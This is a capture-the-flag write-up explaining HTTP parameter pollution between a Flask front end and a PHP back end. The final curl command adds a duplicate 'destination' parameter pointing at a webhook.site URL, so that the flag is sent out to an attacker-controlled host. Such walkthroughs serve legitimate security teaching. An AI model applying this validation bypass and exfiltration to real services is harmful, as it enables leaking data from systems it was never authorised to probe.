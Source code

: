 ```php
    
    // HTTPS doesn't work in some environments
    $context = stream_context_create($options);
    
    $response = file_get_contents($destination, false, $context);
    
    echo 'Flag sent.';
} else {
    echo 'No destination provided.';
}
 
?>
```

This is the code that does the actual flag sending. It reads the destination URL from a GET parameter and sends the flag to that URL.

How do we make this service send the flag to our webhook?

Since there are two apps talking to each other via HTTP, we should take a deeper look at that communication. We see that the Python app passes the whole path to the PHP app, which seems a bit unusual. This allows us to make the Python app send a GET request to the PHP app on any specified path.

```py
response = requests.get(f"http://localhost:8000/{request.full_path}")
```

The idea is to abuse the fact that Flask and PHP behave differently when there are multiple query parameters with the same name.

For example: If you pass `name=bob&name=alice` to any Flask and PHP app:
- Flask will read only the first parameter: `request.args.get("name") == "bob"`
- PHP will read only the last parameter: `$_GET["name"] == "alice"`

This can be a security issue (especially when two servers communicate via HTTP) because there is no HTTP standard (e.g. RFC) on how to interpret multiple input parameters with the same name.

In our case, we can pass the validation part by supplying an URL that meets all requirements, like this:

```
$ curl "http://localhost:5000/sendFlag?destination=http://127.0.0.1"
{"message":"The flag will be sent to http://127.0.0.1."}
```

Then, we add another `destination` parameter that won't be checked by Flask, but will be read by PHP on the back — that will be our webhook URL. Also, we should read the code carefully and see the comment in service.php that says *"HTTPS doesn't work in some environments"*. Because of that, we will use HTTP instead of HTTPS for our webhook URL.

```
curl "http://localhost:5000/sendFlag?destination=http://127.0.0.1&destination=http://webhook.site/ac87eecc-dd36-495c-af30-64ae20864ec8"
{"message":"The flag will be sent to http://127.0.0.1."}
```

Flask says that the flag will be sent to 127.0.0.1, but in reality it will be sent to us. 😎
